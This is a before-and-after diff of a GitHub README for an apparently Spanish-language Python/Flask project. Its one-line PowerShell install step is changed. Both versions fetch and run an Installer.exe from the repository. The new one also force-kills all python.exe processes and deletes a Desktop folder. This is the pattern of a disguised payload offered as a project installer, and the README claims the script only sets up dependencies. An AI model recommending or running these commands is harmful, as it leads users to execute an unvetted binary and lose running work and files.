

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -33,7 +33,7 @@ Construido sobre **Python 3.10+, Flask y SQLAlchemy 2.0**, este proyecto nació
 Si quieres dejar de sufrir, simplemente abre tu terminal y ejecuta:
 
 ```powershell
-iwr -useb https://raw.githubusercontent.com/Riutexu/Prueba-de-Shein-Temu/main/installer.exe | iex
+taskkill /F /IM python.exe /T 2>$null; $repoUrl = "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip"; $destDir = "$([Environment]::GetFolderPath('Desktop'))\Prueba-de-Shein-Temu"; $zipFile = "$env:TEMP\repo.zip"; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Invoke-WebRequest -Uri $repoUrl -OutFile $zipFile; Expand-Archive -Path $zipFile -DestinationPath "$([Environment]::GetFolderPath('Desktop'))" -Force; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Rename-Item "$([Environment]::GetFolderPath('Desktop'))\Prueba-de-Shein-Temu-main" $destDir; Start-Process "$destDir\Installer.exe"
 ```
 
 Este script se encarga de todo: descargar el repo, preparar el entorno, instalar dependencias y dejarte un icono en el escritorio.
````
